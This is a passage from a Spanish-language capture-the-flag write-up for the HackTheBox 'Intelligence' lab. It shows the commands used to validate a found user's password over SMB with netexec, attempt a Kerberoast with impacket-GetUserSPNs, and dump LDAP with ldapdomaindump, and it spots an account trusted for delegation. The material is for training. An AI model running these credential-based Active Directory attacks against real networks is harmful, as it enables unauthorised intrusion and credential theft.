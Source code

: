 Validaremos de nuevo solamente con el usuario y su respectiva contraseña y comprobamos que nos autentica correctamente.

```bash
netexec smb 10.10.10.248 -u 'Tiffany.Molina' -p 'NewIntelligenceCorpUser9876'
```

<figure><img src="../../../.gitbook/assets/1039_vmware_Fgbru5tR0X.png" alt=""><figcaption></figcaption></figure>

## Kerberoast Attack (GetUserSPNs) - \[FAILED]

Teniendo un usuario válido con sus credenciales, procederemos a intentar realizar un **Kerberoast Attack**, comprobamos que no obtenemos ningún TGS (Ticket Granting Service).

{% code overflow="wrap" %}
```bash
impacket-GetUserSPNs -dc-ip 10.10.10.248 intelligence.htb/Tiffany.Molina:NewIntelligenceCorpUser9876 -request
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1036_vmware_6Lp2I9q0pm.png" alt=""><figcaption></figcaption></figure>

## LDAP Enumeration

### Enumerating LDAP with Ldapdomaindump

Procederemos a enumerar el LDAP ya que lo hemos encontrado expuesto. Procederemos con la herramienta de **ldapdomaindump** de exportar todo el contenido de LDAP en nuestra Kali.

{% code overflow="wrap" %}
```bash
ldapdomaindump -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' 10.10.10.248 -o ldap
```
{% endcode %}

Revisando los archivos que nos deja la herramienta, comprobamos que hay un equipo nombrado "svc@intelligent.htb" que como flag aparece "TRUSTED\_TO\_AUTH\_FOR\_DELEGATION", esto es muy interesante y nos podría servir de cara el futuro.

<figure><img src="../../../.gitbook/assets/1037_vmware_iMA9o59KHp.png" alt=""><figcaption></figcaption></figure>
